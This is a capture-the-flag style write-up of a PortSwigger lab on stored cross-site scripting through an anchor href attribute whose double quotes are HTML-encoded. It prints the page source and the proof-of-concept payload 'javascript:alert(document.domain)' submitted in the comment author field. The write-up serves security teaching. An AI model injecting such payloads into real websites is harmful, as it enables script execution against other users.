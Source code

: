 # Stored XSS into anchor `href` attribute with double quotes HTML-encoded | Dec 29, 2022

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-href-attribute-double-quotes-html-encoded), you'll learn: Stored XSS into anchor `href` attribute with double quotes HTML-encoded! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab contains a [stored cross-site scripting](https://portswigger.net/web-security/cross-site-scripting/stored) vulnerability in the comment functionality. To solve this lab, submit a comment that calls the `alert` function when the comment author name is clicked.

## Exploitation

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-8/images/Pasted%20image%2020221229065839.png)

**In the home page, we can view other posts:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-8/images/Pasted%20image%2020221229065857.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-8/images/Pasted%20image%2020221229065904.png)

And we can leave some comments.

**Let's try to inject HTML code:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-8/images/Pasted%20image%2020221229070058.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-8/images/Pasted%20image%2020221229070115.png)

**View source page:**
```html
<section class="comment">
    <p>
    <img src="/resources/images/avatarDefault.svg" class="avatar">
    <a id="author" href="<h1>&quot;Test&quot;</h1>">&lt;h1&gt;"Test"&lt;/h1&gt;</a> | 29 December 2022
    </p>
    <p>&lt;h1&gt;"Test"&lt;/h1&gt;</p>
    <p></p>
</section>
```

As you can see, **our `<>"` is HTML encoded.**

**However, we can still inject JavaScript code in the `<a>` tag's `href` attribute:**
```js
javascript:alert(document.domain)
```

In here, we're using the `javascript` pseudo-protocol to execute script.

**Let's try to exploit it:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-8/images/Pasted%20image%2020221229070524.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-8/images/Pasted%20image%2020221229070540.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-8/images/Pasted%20image%2020221229070546.png)

Boom, we successfully exploited stored XSS.

# What we've learned:

1. Stored XSS into anchor `href` attribute with double quotes HTML-encoded